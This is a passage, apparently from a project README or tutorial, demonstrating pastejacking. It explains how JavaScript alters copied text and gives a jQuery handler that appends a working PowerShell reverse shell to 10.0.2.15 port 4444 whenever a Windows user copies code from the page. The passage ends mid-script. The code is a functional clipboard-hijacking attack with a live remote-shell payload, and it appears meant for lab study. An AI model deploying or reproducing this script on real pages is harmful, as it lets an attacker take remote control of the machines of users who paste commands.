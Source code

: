 ![Web Page](images/Web_Page_Win.png)

2. **Implementing Pastejacking**: Through the use of JavaScript, the actual content that gets copied is manipulated. When users copy the code, additional malicious code is appended or prepended. In this case, the additional code spawns a reverse shell when pasted into the terminal.

```js
$('#copyButton').on('click', function(e) {
            var original = $('#code').text();
            var appended;
            if(navigator.platform.indexOf("Win") !=-1) {
                
                appended = original + '; Start-Job -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient(\'10.0.2.15\',4444);
                                                                  $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
                                                                  while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
                                                                      $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
                                                                      $sendback = (iex $data 2>&1 | Out-String );
                                                                      $sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \';
                                                                      $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
                                                                      $stream.Write($sendbyte,0,$sendbyte.Length);
                                                                      $stream.Flush()};
                                                                  $client.Close();  }; ';
            } else {

```